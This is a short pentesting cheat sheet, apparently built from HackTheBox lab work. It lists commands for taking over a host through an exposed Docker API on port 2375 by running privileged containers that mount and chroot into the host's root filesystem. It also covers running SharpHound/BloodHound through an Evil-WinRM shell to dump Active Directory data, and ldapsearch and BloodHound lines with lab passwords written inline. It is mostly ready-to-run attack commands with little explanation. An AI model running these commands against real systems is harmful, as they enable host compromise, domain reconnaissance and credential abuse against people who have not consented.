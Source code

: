 
## Pentesting Docker 2375 

curl -s http://open.docker.socket:2375/version | jq // get version

docker -H open.docker.socket:2375 version // get version

export DOCKER_HOST="tcp://localhost:2375" // To avoid -H option '-H' is host option.

docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash

docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

# Windows

## Shraphound

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -Domain htb.local -zipFileName loot.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls                                                                                                                     
                                                                                                                                                                        
                                                                                                                                                                        
    Directory: C:\Users\svc-alfresco\Documents                                                                                                                          
                                                                                                                                                                        
                                                                                                                                                                        
Mode                LastWriteTime         Length Name                                                                                                                   
----                -------------         ------ ----                                                                                                                   
-a----         2/8/2023   9:39 AM          19096 20230208093954_loot.zip                                                                                                
-a----         2/8/2023   9:30 AM              0 bloodhound_data.json                                                                                                   
-a----         2/8/2023   9:02 AM        1250056 mimikatz.exe                                                                                                           
-a----         2/8/2023   9:39 AM          19605 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----         2/8/2023   9:07 AM         770279 PowerView.ps1
-a----         2/8/2023   9:21 AM        1318097 SharpHound.ps1


```
Invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvic


## Ldapsearch

	ldapsearch -h localhost -p 389 -w J~42%W?PFHl]g -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -b "dc=pikaboo,dc=htb" -s sub "(objectclass=*)"
